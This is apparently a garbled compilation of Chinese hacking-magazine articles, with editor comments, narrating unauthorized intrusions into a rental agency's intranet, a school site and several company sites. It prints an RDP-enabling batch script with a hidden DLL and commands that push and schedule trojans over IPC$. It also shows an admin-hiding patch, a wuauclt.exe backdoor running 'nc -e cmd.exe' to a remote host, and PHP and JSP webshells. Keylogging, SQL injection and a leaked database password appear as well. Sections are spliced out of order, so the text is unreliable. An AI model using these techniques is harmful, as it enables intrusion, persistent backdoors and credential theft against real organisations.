天，无意中抓屏幕的图却发现 X 家的工作人员正在对房源管理系统进行管理，如图22所示，也就是说他们可以，我不可以。

这期间我以租房的名义去了次我所在地区的 X 家，跟他们聊天的时候也偷偷地看到了他们的机器确实可以访问内部论坛，而外部的不可以。后来通过聊天知道，他们是在机器上保存了一份房东电话后，也用笔在本子上记录一份，至于怎么聊到这方面的，大家好好地练练社工吧。

### 四、内网的渗透


现在一时真不知道该怎么继续下去了，既然从脚本方面没有入手点，又回到挂马的这台机器上面，看下机器环境吧，如图23所示。在内网我已经想到了，但没想到的是，XP 系统居然开了 3389 了。

既然开了 3389，马上抓出 HASH 破解，并用 LCX 进行转发，登录的时候提示到另一用户正在登录。突然想到 XP 是不允许终端多用户登录的，拿出以前收藏过的一段 BAT 代码，把 termsrvhack.dll 和 3389.bat 同时保存在 C 盘，运行后即可多用户登录了。

相关代码如下。

```bat
@echo off
@net stop sharedaccess
@ntsd -c q -p pid
@reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v KeepRasConnections /t REG_SZ /d 1 /f
@reg add HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
@reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Licensing Core" /v EnableConcurrentSessions /t REG_DWORD /d 00000001 /f
@reg add HKLM\SYSTEM\CurrentControlSet\Services\TermService\Parameters /v ServiceDll /t REG_EXPAND_SZ /d %%SystemRoot%%\system32\termsrvhack.dll /f
@copy c:\termsrvhack.dll c:\windows\system32\dllcache\termsrvhack.dll
@attrib +h +s +r c:\windows\system32\dllcache\termsrvhack.dll
```

```bat
@copy c:\termsrvhack.dll c:\windows\system32\termsrvhack.dll
@attrib +h +s +r c:\windows\system32\termsrvhack.dll
@shutdown -a
@del c:\termsrvhack.dll
@net start termservice
@del c:\3389.bat
```

这次是可以登录了，但输入密码后大约 10 多分钟都没有进入桌面，俺也不晓得还是什么情况。又回来继续分析那个房源管理系统，跟朋友讨论了下，有朋友说可能是在网关做的限制；也就是说网关有可能有加密狗之类的设置，判断数据是不是从这个内网……

第二种：

上传一个图片木马，然后用系统自带的数据库备份功能备份得到 WebShell，这里我上传备份一个图片小马，如图5。

在“代码”视图中得到图片小马的地址，如图6。

备份图片木马得到 ma.asa，如图7。

备份成功，得到小马地址，如图8。

访问 **http://127.1/admin/Databackup/ma.asa**，如图9。由于我是使用小旋风搭建 ASP 服务器，这个软件本身不解析 ASA，所以大家看到的图9显示出来是源码。我们在网上实战的时候，IIS 服务器都会对 ASA 进行解析的。

另外，这个系统中还存在跨站漏洞一一，偶就不分析了，晕死了。


```html
<P></P>
```


> 编辑点评：
>
> 本文更像是一篇随笔，记录了作者探索漏洞的思路和过程。虽然看上去有些零散，但却是真实的思路记录。跟踪并学习作者的思路，你下次独自分析漏洞的时候会更有感觉。

网出去的，如果是就可以访问，如果不是就是一片空白。

我觉得这种可能性比较大，既然这样，那么直接反弹代理来连接。反弹 socks 代理的好处是，我们直接可以连接内网的其它机器，而不需要再去转端口。在本机执行如下命令：

```bash
c:\>hd -s --listen 53 1180
[+] Listening ConnectBack Port 53 ......
[+] Listen OK!
[+] Listening Socks5 Agent Port 1180 .....
[+] Listen OK!
[+] Waiting for MainSocket on port:53 ......
```

此命令是将连接进来的 53 端口的数据包连接到 1180 端口。在对方机器上运行如下命令：

```bash
c:\RECYCLER>hd -s --connect x.x.x.x 53
[+] MainSocket Connect to x.x.x.x,53 Success!
[+] Send Main Command ok!
[+] Recv Main Command ok!
[+] Send Main Command again ok!
```

x.x.x.x 为你的外网 IP，这时我们接收到反弹回来的代理显示的情况，如图 24 所示，然后在本机设置 Sockscap，选择控制台的“文件”→“设置”。控制台可以将你需要代理的程序放在上面，直接拖进去即可，如图 25、图 26 所示。

这样把可以复制的 3389 连接器拖进去就可以直接连上了。马上以最快的速度登录 HERP 管理系统，果真没有任何限制了，如图 27 所示。


终于达到了目的，既然已经在内网，那么把目标扩大一些吧，正好赶上比较火的溢出 MS08-067，可惜没成功一台。那么用下最古老的 IPC$ 连接吧，在 CMD 下执行：`net use \\192.168.1.10\ipc$ "longkeyy" /user:"administrator"`，显示成功！继续执行：`copy system32.exe \\192.168.1.10\admin$`，继续成功！接着查看和校对时间，命令为：`net time \\192.168.1.10`。下面用 at 计划任务在指定时间内执行我的木马，命令为：`at \\192.168.1.10 11:23 system32.exe`，执行后却告诉我 at 计划未启动。


这也好办，执行命令：`net use z: \\192.168.1.10\c$`，直接把对方 C 盘映射到本机 Z 盘，把木马复制到启动目录，如图 28 所示。

加上有几个通用密码和几台开 3389 的机器，最后的结果如图 29 所示。

### 五、最后的总结

总的来说，这次渗透是漫长的，但也不是完美的，大家从图 29 中可以看到，有两个内网，因为只要拿下一个机器就等于拿下一个内网了，而每一个内网也就是一个地区的分店，每个店的账号只能查看自己区的房源信息，而不能看其它地区的房源信息。

X 家在某个城市一般是有 N 多分店的，估计数据库都是在那个 HERP 管理系统里，不过我找了好久也没发现有漏洞。我对这次渗透还是比较满意的，因为从中自己也学到了新的知识，复习了已经掌握的技术。


## 巧藏动易 2006 后台管理账户，做真正的“幕后英雄”

□ 岳翰林

本文写的是如何巧藏动易 2006 后台管理账户，根据这篇文章你可以延伸一下思路。

### 一、起因

前段时间拿下了学校的网站，是动易 2006，做管理员的感觉真好，如图 1。可是星期一之后，我再次登录却失败了，一定是管理员发现了，把我的管理权限删了，郁闷 ing……

### 二、突发奇想

再次将自己加为管理员，可是躲得了初一躲不了十五，总有一天还是会被管理员发现的，于是我就有了隐藏管理员的想法。当时想到了两个方法：一是编写一个随时添加管理员的 ASP 脚本，想要登录的时候直接运行就可以了；二是修改动易原有的脚本，在动易原有的脚本中添加或修改一句，使其按照我的要求列出管理员用户。

显然，第一个方法显得笨拙，不易于实际操作，还容易被管理员发现，所以只有用第二种方法了。

### 三、探索发现

关于管理员的操作是通过 `<PowerEasy>/Admin/Admin_Admin.asp` 这个脚本实现的，可是这个脚本只是调用 PE_Admin6.dll 的一个空架子，核心代码不在这里，如图 2。

可以肯定的是，PE_Admin6.dll 就是管理员页面的核心部分，只有修改此文件才有可能达到我们的目的。可怎么修改 DLL 文件呢？习惯性地用 PEiD 看看这个 DLL 文件，加了 UPX 压缩壳，脱壳后发现这是一个 VB 写的 DLL。

想到用 GetVBRes 可以编辑已编译的 VB 程序，于是用它打开 PE_Admin6.dll，如图 3，发现此文件果然包含大量 ASP 代码，我们要找的代码应该就在这里。

点击“搜索”→“查找字符串”，然后输入管理员页面包含的文字，就输入“管理员管理”（不含引号）吧，确定后来到偏移量为 0001CF10 的地方，如图 4。

大家看见了什么？就在这行的前两行，有一段查询数据库的 SQL 语句，原为：“select * from PE_Admin order by id”，其意为列出 PE_Admin 表（也就是管理员信息所在的表）中所有内容，并按 id 号排序。我们可以在 PE_Admin 表中添加一个字段，使其等于一个特定的值，再将 SQL 查询语句改为“select * from PE_Admin where …… ”即可。

举一个例子：先在 PE_Admin 表中添加 ds 字段，数据类型为数字型，默认值设为 0（这样，新添加的记录 ds 值就为 0，即不隐藏，这样可以解决网站原管理员添加新管理员时看不见新管理员的问题），如图 5 所示。


> 编辑点评：很好的一篇渗透文章，看得很过瘾，不知作者能不能透露下用的哪个网马，中奖率竟然这么高，呵呵。


然后将“select * from PE_Admin order by id”替换为“select * from PE_Admin where ds=0”（这里要注意，所替换的 SQL 语句总长度不得超过原句的长度），替换完成后，点击“文件”→“更新当前程序资源”，如图 6。

| 字段名称 | 数据类型 |
|---|---|
| Count_Reject | 数字 |
| ds | 数字 |

| 属性 | 值 |
|---|---|
| 字段大小 | 长整型 |
| 格式 |  |
| 小数位数 | 自动 |
| 输入掩码 |  |
| 标题 |  |
| 默认值 | 0 |
| 有效性规则 |  |
| 有效性文本 |  |
| 必填字段 | 否 |
| 索引 | 无 |
| 智能标记 |  |
| 文字对齐 | 常规 |


```bat
rem 停止 IIS
net stop iisadmin /y

rem 卸载组件
regsvr32 /u %windir%\system32\PE_Admin6.dll

rem 备份组件
copy %windir%\system32\PE_Admin6.dll %windir%\system32\PE_Admin6.dll.bak

rem 替换组件
copy PE_Admin6.dll %windir%\system32

rem 注册组件
regsvr32 %windir%\system32\PE_Admin6.dll

rem 启动 IIS
net start w3svc
```

这样一来，查看管理员时，系统只会显示 ds 值为 0 的管理员，如图 7，而那些 ds 值不为 0 的管理员虽不显示，也可以正常登录进行后台管理，所以只要将想要隐藏的管理员账户的 ds 字段值改为不为 0 的任意数字即可（我改为了 1）。


我们精心打造“动易”组件就完成了，下面的工作就是把原来系统中的 PE_Admin6.dll 替换成我们刚修改的文件。由于网站运行时需要读取此文件，所以应先停止 IIS，这里我写了一个批处理来完成替换工作，代码如下：

将代码保存为 *.bat，并将我们修改好的 PE_Admin6.dll 文件放在与此批处理同一目录下即可。最后将这两个文件连同修改好的数据库文件上传，执行批处理，并替换原来的数据库文件即可。

还有几点注意事项要说一下：由于动易组件版本不同，所以要先从原网站服务器上下载 PE_Admin6.dll 文件做好备份后再进行修改，否则一旦改错就会出现“没有安装动易组件 PE_Admin6.dll”的错误提示。对于数据库的修改，如果数据库不大，可以下载到本地编辑后再上传。如果数据库较大，可以上传数据库编辑软件直接在服务器上编辑。最后再提醒一句，所有工作完成后千万别忘了清理痕迹——删除上传的批处理及 PE_Admin6.dll 文件。

> [本文用到的 GetVBRes 0.9 已收录在本期光盘]

> 编辑点评：这种方法可以是可以，不过需要服务器的 administrator 权限，因为你要注册组件。用这种想法，不如好好地在服务器后门上功夫，不过也算是一个思路了。

## Update 后门之反弹 cmdshell

swan

## 本文提供了一个不错的思路

NC 反弹 cmdshell 需要频繁调动此程序，虽然可以借用 VBS 脚本调用控制频率，即多少时间执行一次连接，但必须考虑到脚本自动启动问题；以及进程中会出现可疑的进程名（如 wscript.exe）。

用 AT 命令以及屏幕保护来调用程序是个不错的思路，其本质就是利用系统中可以在指定时间调用程序的功能。举一反三，系统中还有类似于计划任务、屏幕保护等这样的东西。

## 西线无战事

假如我们把此磁盘工具的文件替换成我们的后门程序，这个系统就会安装一个定时“炸弹”。再深入思考下，我们可以这么想：替换一个有可能被调用的程序，就可以被动运行，这里我们用第三方软件来举例，比如 QQ 的升级文件，还有 Qzone.exe 等。


从上面我们可以得出，调用程序有些是人为被动调用的，以及环境变化而产生的调用。比如 QQ 一旦有补丁，自动调用升级程序，替换它是可以的，但调用得不够频繁，对于我们的 NC 反弹 cmdshell 来说，当然是越频繁越好了，哈哈。但是频繁也不好，因为在进程管理器里就会常常出现 NC.exe，电脑管理员不发现异常才怪呢！


怎么才能解决这个矛盾呢？那就要感谢我们的微软了，时常发布补丁，而且其系统还有个自动更新服务，这个调动的频率足以满足我的要求。

具体分析：在“控制面板”打开系统的自动更新服务，一个熟悉的界面出现在我的面前，如图 1。

这里的时间让你想起了什么吗？我可是想到了屏幕保护的时间设置，其实这些就是我们调用的时间频率设置。呵呵，很好，很强大！第一个选择项就是选择我们在什么时间调用了，比如我是在晚上 23:00 调用的。下一个就是频繁调用了，这个更强大，经过用 PCshare 测试，卸载后马上又调用了，如图 2。

找到那个文件，替换它就可以了。为了成功替换，我们必须先到服务列表把显示为“Cryptographic Services”的服务停止掉，如图 4。

接下去的事情，估计大家都应该知道了吧，只要利用批处理潜行着把如下内容处理成 EXE 文件，命名为 wuauclt.exe。


```bat
@echo off
@nc -e cmd.exe wan7110.3322.org 8000 :: 事先把 NC 放在 C:\WINDOWS\system32 目录下
@exit :: 避免任务进程多出很多名为 CMD.exe 的文件
```

后续：更新一下动态域名，然后在本地 C 盘监听 8000 端口，命令如下：`nc -v -l -p 8000`，如图 5 所示。

等到微软补丁一发布，肉鸡的自动更新就会自动调用程序连接到我们的电脑，如图 6。

后记：假如我们选择的是连续调用的话，当管理员用 360 等更新补丁后，我们的程序就不调用了，这样又使我们的后门可以成为一个隐形的“炸弹”了！我们每次就等微软出补丁，频率应该还可以吧，呵呵！


最关键的是，当系统检测到有补丁，我们经常可以看到如图 3 的界面，留意过任务管理器的进程名没有？就让我告诉你吧，它调用的是位于 `C:\WINDOWS\system32` 下的 wuauclt.exe 文件。

> 编辑点评：思路是不错的，但是方法有点笨，可以换个方式来调用这个思路，比如把木马也这样替换，随着微软自动升级来升级自己的木马。


## 渗透某大型内网

本文写的是一次很顺利的渗透过程。

我由于平时比较忙，养了很久的 VPN 肉鸡飞掉了，近来正好有时间，于是打开 Google 搜索 upfile.asp 开始找肉鸡。运气还算不错，来到了某 XX 站 `http://xxx.xxx.tw/xx/upfile.asp`（为了不必要的麻烦，我隐藏了敏感内容），直接上传 ASP 提示错误。接着上传 GIF 文件成功，查看上传路径发现图片重命名了。最后抓包分析修改上传路径，得到一个 shell，如图 1。具体方法翻翻以前杂志或 Google，一找一大堆，这里就不浪费版面了。


图 1

执行命令后，发现权限还比较大，能够执行一些简单命令，像 `net user`、`ipconfig /all` 等等，如图 2。不过执行添加用户是肯定不行了，由于支持 ASPX，我想起去年攒的本地提权，马上直接上传 Churrasco.exe，这里命名为 c.exe。运行命令为：`/c E:\website\wwwroot\xxx\xxup\c.exe "net user nohack nohack /add"`，最后成功加了用户，如图 3。

执行 `netstat -an` 发现 3389 开放，很兴奋地连接上去，却提示“无法连接远程计算机”。不应该啊？明明开着 3389 呢！Google 了下，一般开了 3389 无法连接的原因有：

- 1. 服务器在内网。但我看到显示的 IP 是公网 IP，先排除是内网服务器的可能。
- 2. 做了 TCP/IP 筛选。我执行 CMD 命令：`cmd /c regedit -e c:\1.reg HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Tcpip`，导出注册表里关于 TCP/IP 筛选的第一处，查看导出的内容 EnableSecurityFilters 这个字段里 dword 后面的键值是否为 00000000，如果为 00000001，就说明管理员做了 TCP/IP 筛选，我们只要把 1 改成 0 就行了。还有两个地方要导出，可是我导出来这三个 dword 后面的键值都为 00000000，看来也不是这种原因。
- 3. 做了 IP 安全策略。执行 CMD 命令：`cmd /c net stop policyagent`，将 IPSEC Services 服务停掉再连 3389。还是连接不上！
- 4. 管理员设置的终端登录权限只有指定的用户可以使用。这种原因应该是可以连接、无法登录，也排除。
- 5. 防火墙。在 webshell 执行了下 `tasklist`，发现有几个进程比较可疑，如 `almon.exe`、`alsvc.exe`、`SAVAdminService.exe` 等，如图 4。


图 3


图 2

搜索下几个进程名，发现是 Sophos Anti-Virus（SAV），英国开发的一个杀毒软件，网上好评还不少。莫非是它搞的鬼？看看能不能直接结束掉。试了下，还真能结束掉，不过还是连不上，原因不明中……因为这个网站禁止中国大陆的 IP，这期间我试了反弹 CMD（反弹 IP 是美国的一个肉鸡）、端口转发等，最后直接传了一个反弹的远程木马，在 webshell 执行（因为我有管理员的权限执行命令了），不过最后都没有弹出来。连 HTTP 协议都没弹出来，当真是郁闷。


图 4

图释：花浪浪子

## 西线无战事

既然这样，还是在 webshell 里收集一下本机信息吧。执行 `net view` 查看有没有其它机器，结果还真有，如图 5，突然发现自己变笨了，我既然有这台电脑的 cmdshell 权限，把它的 HASH 密码跑出来以后就可以连接其它机器呀！何况我这台还是个分站，而主站上面有 N 个分站，每个 IP 也都不一样。于是上传 `pwdump` 抓了 HASH，由于没有彩虹表，用 LC5 来跑吧，如图 6。

```text
Argument : /c net view \\website\wwwroot
[snip]

/churrasco/->Current User: NETWORK SERVICE
/churrasco/->Getting bpss PID ...
/churrasco/->Found bpss PID: 818
/churrasco/->Searching for bpss threads ...
/churrasco/->Found Thread: 820
/churrasco/->Thread impersonating, looking for another thread...
/churrasco/->Found Thread: 824
/churrasco/->Thread not impersonating, looking for another thread...
/churrasco/->Found Thread: 832
/churrasco/->Thread impersonating, got NETWORK SERVICE Token: 0xf24
/churrasco/->Getting SYSTEM token from Spooler Service...
/churrasco/->Found Administrator token
/churrasco/->Found SYSTEM token 0xc1
/churrasco/->Running command with SYSTEM token...
/churrasco/->Done, command should have run as SYSTEM

\\XP-SERVER14
\\XPSERVER
\\IDB-X345
\\DBSERVER
\\TJ
\\XIAOHSTJWGCOUNTY
\\KSCC-EM
\\KSCG_CMS2
\\KSCGPLAN
\\XWCDZB
\\MEDIA
\\MHO
\\R900
\\SERVER
\\SERVICE
\\USER-QQRT4L2V1
\\user00-436311t
\\s821r5s4
```


接着对整个 C 段扫了一下 3389，结果只有 3 台机器开放，如图 7。我拥有权限的是 16x.xxx.xxx.99，扫出的一台 16x.xxx.xxx.69 也开放 3389 了，接着把这个 IP 拿到查旁注的网站看了下，结果不少都是分站和一些相关的站。

试了一下，可以直接连接，用 LC5 跑出的一个密码登录，结果显示登录成功，却永久地停在了那里，如图 8，不能继续任何操作，真晕，以前还真没遇到过。

接着用了 administrator 的密码登录，这次成功进入了桌面。执行 `ipconfig /all` 看下大致环境，发现还有 DNS 服务器，如图 9。一般 DNS 服务器也就是域服务器，接着我用 `net view /domain` 看了下有几个域。

看来我所在的是 INTRANET 这个域，继续用 `net view` 看了下本机所在的域约有多少台机器，如图 10 所示。

接着用 `net time /domain` 探测了下时间服务器，没权限。再用经典的 `net group "domain admins" /domain` 命令，同样是没权限。正在想办法如何进行下一步时，看到桌面有个远程桌面的东西，打开一看里面有管理员保存着的其它机器的 IP。试了下这个段的其它机器，都可以连进去，看来管理员又是用的“一卡通”，如图 11。


接着用端口扫描器扫描，这个段一共有 20 多台机器都开 3389 了，密码都可以进入，不过我还不清楚这么多域呢，继续渗透吧。分析了下情况，现在 172.16.1.* 的 IP 段基本都已经搞定了，为避免和管理员“撞车”，我决定晚上再行动。到了晚上，登录连上去的时候发现管理员果真登录了，如图- 12. 而且管理员在退出的时候是开着的，并未注销。接着我开了一个 NP 写的终端监视脚本，管理员在登录的时候就会注销我。运气还不错，得到了一台 XP 系统，接着抓 HASH，破解嘛，过程就省略啦。


既然管理员用这台电脑管理其它机器，那么我装一个键盘记录工具上去。这里我选择的是 akl.exe 文件，上传上去记录一下，一连几天，什么也没记录到。分析了下，暂时不想用 CAIN 嗅密码，试着用 MS08-067 溢出，结果显示成功，但在 telnet 的时候失败，郁闷啊，如图 13。


IPC 连接了下，失败。又过了两天，登录上去一看，发现记录到了 putty 的密码，原来还有 UNIX 系统呀，如图 14、图 15 所示。

不但记录了 putty，还包括网页、信箱之类的，看来这个键盘记录安装得挺成功。

接着用 putty 登录，如图 16，`ls -a` 列了下目录，`netstat -an` 查了下端口，发现开了 80。我对 UNIX 的渗透经验不是特别足，先放在一边，直接用 `echo "<?php @eval($_POST[cmd]);?>" > index.php`，写进了一个 SHELL。

思考一下，溢出、IPC 已经试过，嗅探是不得已的办法，那还有一招没有用过，winlogon 劫持记录工具，如图 17。这东西可以记录域管理员在本机登录时的密码，我把我已经控制的所有机器差不多每台都用上了这个东西。过了不到一个星期的工夫，连上去后一看，果然记录到了很多密码，如图 18。

## 西线无战事


我没想到的是，其它域里面居然还有 E 文系统的机器，最后用其它域管理员账号登录，如图 19。当我拿下域里的其它域机器时并没有太多的兴奋感觉，因为文章所用的都是很常规的技术，写出来作为文档，留给菜鸟，留给自己。

> **编辑点评：**
>
> 这篇文章对有一些基础的读者来讲，就是看一个流程了，然后注意作者用的一些什么工具，像我就特意去网上搜索了一下 akl.exe。对于没有基础的菜鸟来讲，似乎少了一点什么，应该是少了技术细节的描述，加上一点的话文章就好看了。

## 代码获取记

图 fjhh

看下作者的思路吧，也是老东西了，呵呵。

龙兄想拿别人站的代码，于是让我帮忙。先打开主站，的确蛮漂亮的，Flash 应用得真多，眼都晃花了。点开一个链接，加了个 `and 1=1`，弹出了个警告框，又见 neeao 的防注入。用 “-1” 测试，发现不存在注入，估计都被 `IsNumeric()` 掉了。

在 URL 后面接上 `sqlin.asp`，如果存在的话我们就直接可以提交一句话了。可惜 RP 不好，不存在。请出 GOOGLE 大叔看了下网站结构，没有找到后台登录页面，来到了一个关于工作招聘的版块，顺利找到了一个注点，如图 1。用 NBSI 猜解出用户名密码，密码还用到了雷聪系统的加密方式，如图 2。

加个 manage 就出现了这个工作招聘版块的后台，登录发现存在数据库备份，这下好办了。发布新闻，插入经过 Unicode 编码的一句话，备份数据库后如图 3，加了防下载表。

翻遍整个后台也找不到可以上传图片文件的地方，由于不能直接下载 mdb 格式文件，将数据库备份成 rar 格式下载回来，看能否用太平间的方法“`</%on error resume next : eval request("#") : '<%/</loop %>`”突破。


数据库备份后有 40 多 M，用 16 进制工具打开，刚才插入的一句话被插到了“防下载代码”后面了。看着那一串串的乱码，当场晕倒了，还是放弃这思路吧。太伤神了，根本无法区分哪些字段是保存在防下载码前面的。

回到站点根目录，又来到了另一个版块，发现了提供下载的页面，如图 4。分别用 NBSI、阿 D、明小子、网站猎手扫了一次目录，没有理想中的 `upload.asp` 等文件存在。找到了一个简陋的信息提交，如图 5，也不存在文件上传功能；看来想通过上传再备份的这条路就得中断了。

再次来到数据库备份页面，心想既然能备份，何不用“../”将根目录下的其它文件给备份出来呢？随便找了个查询数据库的页面将其备份，如图 6，备份出来发现：`<!--#include file="../../../inc/Bgy.asp"-->`。

继续备份 Bgy.asp，发现 `<!--#include file="conn.asp"-->`。

接着再度循环，在 conn.asp 中终于出现了庐山真面目：

```html
<!--#include file="../../admin0531/inc/conn.asp"-->
<!--#include file="../../admin0531/manage/SqlIn.asp"-->
<!--#include file="../../admin0531/inc/inc.asp"-->
```

这个邪恶的管理呀，后台被改成这样了。看到熟悉的 `sqlin.asp`，直接插入一句话吧，如图 7。“%” 被过滤了，用 Unicode 编码后再次提交，兴冲冲地拿出 lake2 的一句话连接，直接显示空白，估计是唬人的，并没有对提交的数据进行记录。

继续备份，将 conn 文件备份出来，主要代码如下：

```vb
sqlserver="10.10.168.72"
sqlname="countrygarden"
sqlpassword="COUNTRYgarden"
sqlLoginTimeout = 15
```

内网的数据库留着，如果提权成功了说不定还能用上。本以为是 access 的就可以直接下载了，又得换思路。继续备份了 N 个文件，因为我还想找找这个强大的后台是否还有其它编辑器或图片上传什么的页面，漫长的痛苦过程就省略吧，发现文件不是不存在就是存在 session 判断，看来只有登录后台了。


重新回到前台去找注点，几经波折，痛苦 N 久，终于找到一个 cookie 注射点，db 的权限，但发现列不出目录。没关系，在开始的备份里我们就获得了路径，差异备份后发现数据库存在防下载表。由于目标只是代码，这内网的数据库机器就不弄它了。既然猜解不出表名，那将后台验证文件给备份出来：

```vb
sql="select * from Bgy_Userdb where username='"& name &"'"
GetdbRs.sql,1,1
if not rs.eof then
if rs("ps")=md5(pass) then
```

表名被改得如此 BT，字段也比较另类，看来管理员也不是吃素的。添加后成功猜解出用户名密码，如图 8。登录后台，终于看到了上传，如图 9。上传图片木马，再在开始的工作招聘后台将其备份成 asp，用海洋成功连接。一上去直接就把网站根目录给打包，2G 多，当场雷倒。还是丢给龙兄吧，让他自己弄去，我也不要了。

方法简单，走得比较曲折，像找到工作招聘版块、寻找注点等，花费了不少时间，写给菜友们一起分享，思路还是最重要的。

**编辑点评：**

主要还是一个 FSO 的备份权限，让作者做了许多事。文章中提到的那个网站加解密，作者没有提供工具，我写段 VBS 代码，有兴趣的读者自己手打一下载吧，哈哈（当然，你上网搜索也是可以找到的）。


```vb
function decrypt(dcode)
dim texts
dim i
for i=1 to len(dcode)
texts=texts & chr(asc(mid(dcode,i,2))-i)
next
decrypt=texts
end function
msgbox decrypt("323<668<")
```

## 轻松进入 pcook 官方网站

作者 rabbitsafe

```asp
<%
KeyWord=Trim(request("KeyWord"))
stype=trim(request("type"))
ID=trim(request("ID"))
...
If KeyWord<>"" then
mypage.getsql=server.createobject("adodb.recordset")
If stype=1 or stype="" then
mypage.getsql="select top 100 * from pcook_Article Where yn = 0 and Title like '%"&KeyWord&"%' order by DateAndTime desc"
elseif stype=2 then
mypage.getsql="select top 100 * from pcook_Article Where yn = 0 and UserName = '"&KeyWord&"' order by DateAndTime desc"
end if
%>
```

大家好，这期给大家带来的文章是讲如何拿下 pcook 程序官方网站，过程比较简单，希望新手朋友们能学到些东西。下面，开始我们的友情检测。

前段时间看见“黑手”有人发过一篇文章，讲 pcook 2.2 文章系统存在搜索型注入漏洞，于是就去官方下载本套程序看看，发现官方已经更新到 2.3 版本了，可能漏洞已经堵上了，但还是下了一套最新的程序在本地测试，发现漏洞依然还在，漏洞出现在搜索文件 `search.asp` 中，如图 1。

从图中可以看出，对于搜索参数 KeyWord 的值判断太简单了，用 trim 函数过滤掉前后的空格就直接放入到 SQL 语句中进行查询，很明显存在搜索型 SQL 注入漏洞。

接下来，我们测试一下官方网站是否存在此漏洞。打开 `http://www.pcook.com.cn/`，然后在查询处输入一个查询值，但是要存在，要能有返回值。我们用 Zwell 写的 pangolin 注入工具来进行搜索型注入，用这个工具不用输入关键字，它会自动在页面帮我们输入关键字。

输入注入的地址 `http://www.pcook.com.cn/search.asp?keyword=%B3%CC%D0%F2`，由于 pcook 文章系统被变态修改过，工具里默认可能没有，所以我们要自行添加。列名最好也自行添加上去，可以提高猜解速度，如图 2。成功猜解出管理员账号和口令。

把猜解出来的 md5 值放到 md5 破解网站上进行破解，成功得到密码，如图 3。

接下来就差一个后台了，我找后台用了很多方法，首先用工具扫描，然后用 google 搜索，还加上了手工猜解，都没有猜出后台地址。在网站上找了一下，发现还有一个 blog，用的是 z-blog，前段时间 z-blog 好像爆出了跨站漏洞。

直接在网站后面加上 admin，后台地址没有改，但是默认数据库路径好像改了，而且这套程序好像也没听说有其它的漏洞。既然这个 blog 和主站在一起，肯定都是管理员弄的，有可能管理员口令一样呢。马上试了一下，结果成功登录网站后台，如图 4。

接下来就是后台拿 WebShell 了，z-blog 后台拿 WebShell 比较简单，首先在“网站基本设置”－“允许上传文件”里添加上 asa 后缀，如图 5。然后到“附件管理”上传 asa 后缀的木马，成功后就拿到网站 WebShell 了，如图 6、图 7。

后来，发现网站管理员把后台目录改成了“猜吧”，难怪很难猜出网站后台目录。

这篇文章没什么技术含量，只是试了一点社工的东西，管理员为了方便，把 blog 管理员口令和 pcook 文件系统管理员口令设置成一样的了。如果文章中有什么不明白的地方，可以到《黑客手册》论坛去找我，我的论坛 ID 是 rabbitsafe。


图 4


图 5


图 6

**编辑点评：**
可以把 pcook 漏洞收进你的漏洞列表了。


图 7

## 绕过 WINDOWS 自定义错误继续入侵

从本文你可以学到：

- FCKeditor 编辑器的漏洞利用以及 Oracle 入侵的一些基本知识

### 其一，起因

有位朋友在北京某公司做网站美工，前些天聊天时无意间听到他们的服务器好像被上传了脚本木马，如图 1 所示。


### 其二，上当

基于一个入侵爱好者的热情，所以想看看到该入侵者是从什么地方着手进入服务器的。首先从朋友那里要来了被传至网站 UserFiles 目录下的 jsp 脚本木马，用记事本打开后发现是一个用来执行系统 CMD 的小马，很简洁，是网上很流行的那种，如图 2 所示。

```jsp
<%@ page import="java.io.*" %>
<%
    try {
        String cmd = request.getParameter("cmd");
        Process child = Runtime.getRuntime().exec(cmd);
        InputStream in = child.getInputStream();
        int c;
        while ((c = in.read()) != -1) {
            out.print((char)c);
        }
        in.close();
        try {
            child.waitFor();
        } catch (InterruptedException e) {
            e.printStackTrace();
        }
    } catch (IOException e) {
        System.err.println(e);
    }
%>
```

从木马被放的位置看，我初步推断入侵者是利用 FCKeditor 的上传漏洞进行侵入的。我就曾经看到过一个 JSP 版的 FCKeditor 上传漏洞，所以直接拿来用，以下是漏洞描述：

- 查看配置和列出目录下的文件，分别提交如下 URL：
  - `http://www.xxx.com/fckeditor/editor/filemanager/browser/default/connectors/jsp/connector?Command=FileUpload&Type=Image&CurrentFolder=%2F`
  - `http://www.xxx.com/fckeditor/editor/filemanager/browser/default/connectors/jsp/connector?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=%2F`
- 上传 shell 的地址：`http://www.xxx.com/fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/jsp/connector`

从朋友处得知了这台服务器的环境：WIN2K3 + JSP + TOMCAT + Oracle。看来这个站需要处理的数据量很大，所以用了甲骨文的 Oracle。不过网站管理员的安全意识不是很高，也没有与时俱进的精神，FCKeditor 的默认目录没有改，让我很容易就访问到了上传漏洞所在的页面。

我直接上传朋友传来的那个 `CMD.JSP`，意外出现了，弹出提示“XML 请求错误”，如图 3 所示。硬着头皮去访问马的地址，也提示 404 错误，如图 4 所示。

看来这条路是走不通了，很可能是入侵者进去后修补了漏洞。


### 其三，徒劳

既然上传不能用，那就只有想其它办法继续我们的人侵了。说实话，我对 JSP 的入侵并没有多少经验，更何况是 JSP + Oracle 的组合。众所周知，Oracle 相对于 MYSQL 和 MSSQL 具有更稳定、更安全等优点，而现在国内对于 Oracle 的入侵技术并不像 MYSQL 和 MSSQL 那样普及。现在我就遇到了这样的一个站，所以只好不自量力去找下漏洞的所在了。


从网站主页看，全是纯静态页面，注入不太可能，所以我的思路是：

- 利用搜索引擎找到网站中以 `.jsp` 为后缀的页面，测试注入漏洞；
- 尝试找到网站后台，再加上第一步的注入漏洞破解后台；
- 寻找后台漏洞，直接拿到系统权限。

虽然思路是有了，但仅仅是假设，以上三个步骤中，无论哪里出了点错误都不可能达到我们最终的目标，所以入侵有的时候是需要运气的哦。

百度 HACKING 和 GOOGLE HACKING 的技术也不是什么高深的东西了，既然是国内的网站，那就使用百度 HACKING 吧。打开baidu.com，在搜索栏中输入“site:xxx.com inurl:jsp”来查找，这个语句的意思就是在主域名为 xxx.com 的网站下搜索含有 jsp 的页面。还好我运气不错，找到了一个 JSP 页面“web.jsp?img=shishangan&buytype=shop&commno=012356&index=1”，如图 5 所示。

所以也就不可能利用生成的文件做文章了（如果可以更改为 JSP 后缀的文章，那样就可以将脚本木马写入 .jsp 文件）。

图 6

### 四、反思

